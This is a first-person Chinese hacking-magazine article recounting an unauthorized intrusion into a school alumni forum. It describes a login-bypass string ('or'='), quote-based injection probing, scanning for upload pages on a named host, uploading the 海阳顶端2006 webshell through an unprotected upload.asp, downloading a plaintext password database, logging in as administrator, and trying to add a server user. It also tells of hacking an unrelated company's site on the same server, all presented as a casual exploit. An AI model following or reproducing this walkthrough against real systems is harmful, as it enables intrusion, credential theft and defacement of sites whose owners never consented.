

图1

# 一个人的战争

这天待在家里实在是无所事事，只好去网吧打发时间。QQ 上没有几个人，看着时间还早，突发兴致想试试我们学校的论坛安全如何。



由于我们这个年级的论坛因为某种原因关闭了，我就在百度里输入 XXXX（学校名）论坛。马上就找到一个，打开后如图1所示。



是 90 级的学长们的论坛，印象中以前弄过这个站，但是没有什么进展就放弃了。我四处逛了下，还是老样子，整个站只有 BBS 登录界面，不准注册，所以我们也就进不去论坛了。由于主要是对 BBS 本身做检测，所以这里不考虑旁站，同时也尽量避免从服务器系统下手。

在用户名里填入：“'or'='”，密码也是一样，回车后显示用户名或密码错误。这时调用了一个页面，试了试没什么利用的。在这个页面里查看帮助页面，如图2。



现在就是想尽量多找一些页面出来，看是否有利用价值，但是找了半天也没有找到一个可以利用的。回到登录界面，我查看了一下源代码，倒是发现了几个似乎有点意思的东西，如图3。

```html
<!-- 登录页源码片段（图3） -->
<form action="dispusser.asp?name=1" ...>
<input name="username" type="text" ...>
<input name="password" type="password" ...>
<script language="javascript">
function openUser(d){
  window.open('dispusser.asp?name='+d, ...);
}
</script>
```

画线处显示是一个 URL 的一部分，我把它补充完整：`http://zz2z.k65.net/dispusser.asp?name=1`，回车后如图4所示。OK，提示用户不存在。看来后面是接用户名，我把“1”换成“admin”，回车后如图5。





事情总算有点进展，点击下面的“给我留言”和“修改资料”，均显示出错，用户没有登录。我试着在网址后加个“'”，回车后如图6（记得把 IE 属性里“显示友好 HTTP 错误信息”前面的勾去掉）。



好像有洞的样子哟，用啊D来跑，但是没有猜出一个表，得到密码的愿望泡汤了（后来我下载了数据库，里面有 admin、user 等常见表，至于为什么啊D跑不出来，可能是因为不存在 SQL Injection 吧，因为后来我用“and 1=1”和“and 1=2”显示的是同一个页面）。

死马当活马医了，我用啊D猜测 BBS 的管理入口，结果蹦出了一大堆，如图7。`http://zz2z.k65.net/upfile.asp`，`http://zz2z.k65.net/reg_upload.asp`，`http://zz2z.k65.net/upload.asp`，这几个 URL 快速进入我眼中，经过尝试，`http://zz2z.k65.net/upfile.asp` 是……

# 一个人的战争

这个上传页面的调用页面不能直接上传，`http://zz2z.k65.net/reg_upload.asp` 限制了上传文件的格式，我的海阳顶端木马传不上去。最后我通过 `http://zz2z.k65.net/upload.asp` 这个页面顺利上传了海阳顶端 2006，如图8。











高兴之余，我突然想到没有木马地址呀，晕。带着最后一丝希望查看图8页面的源代码，再次给了我惊喜，如图9。马上访问我的木马，如图10。在服务器里游荡了半天才找到学长们网站的目录（过程中发现陕西“三界集团”的网站也搁在上面，就捎带给黑了，算是提个醒），但是没有写权限，如图11。不过这也没有关系，毕竟是学长们的 BBS，把整个首页黑了可不太好，所以我也懒得提权了。顺利找到数据库下载下来，打开后发现密码是明文放置的，如图12。这下好办了，直接拿到管理员密码登录，成功进入，如图13。





终于进来了，点击右上角的“管理”，进入管理界面。无意中发现论坛带有 SQL 语句执行功能，就使用 SQL 语句试着在服务器上加个用户，结果却大失所望，如图14，居然限制了语句的使用。回到最初的目的，简单修改了一下论坛的一些信息，提示有漏洞，潇洒撤退，如图15。由于整个过程是在网吧完成的，所以我也没有擦除日志。

对于此次入侵过程，我总结了一下：并不一定论坛只有一个登录界面、不让人注册就很安全了。另外，那个上传文件的调用页面如果加上 COOKIE 或者 SESSION 身份验证，进一步说明即使只是限制了上传文件的类型，我要想入侵可能也不会这么简单了。后来我又简单浏览了一下服务器，整体安全性做得还是很不错的，很多目录没有写权限，甚至连浏览权限也没有，比如 Administrator 的文档就不可以浏览，这样阻止了我把木马什么的提权工具放到他的启动组去。SERV-U 是 6.1 的版本，本地溢出我手上最高的是 6.02 版本的也不行，MSSQL 目录不能浏览，所以起码是没机会拿到 sa 的密码了。但即使是这样，因为一个 BBS 服务器上的两个站点被黑了（“三界集团”网站目录下有写权限），也再一次让我体会到了安全是一个整体。（文章中涉及到的工具、注入工具、海阳顶端 2006 木马已经收录于光盘中）



图14

